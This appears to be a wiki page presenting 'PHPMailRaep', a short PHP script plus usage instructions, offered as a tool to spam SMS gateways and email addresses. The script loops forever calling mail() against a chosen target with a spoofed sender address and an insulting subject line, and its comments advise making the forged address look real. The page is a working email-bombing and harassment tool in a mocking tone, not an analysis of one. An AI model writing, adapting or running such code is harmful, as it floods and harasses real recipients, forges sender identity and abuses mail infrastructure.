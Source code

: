 PHPMailRaep is a simple script to spam [SMSRape](/SMSRape) and email addresses.

## Code  ##

<pre><?php
// Simple PHPMailRaep by janus zeal
// irc.netchan.org #insurgency
$to = "email address";
$subject = "asshole of the year";
$message = "haha";
$from = "pedrobear@internet.br";
// From address doesn't have to be valid, but it should look like a real email
// Don't edit below here
$count = 0;
$headers = "From: $from";
while (1) {
        $count++;
        mail($to,$subject,$message,$headers);
        print "Message sent, Now @ " . $count . "\n";
}
?></pre>


## Use  ##

Run from the nix command line, sendmail and php-cgi are required. 
<pre>php-cgi mail.php</pre>

Ctrl-c to exit (Not pretty, I know. :\)
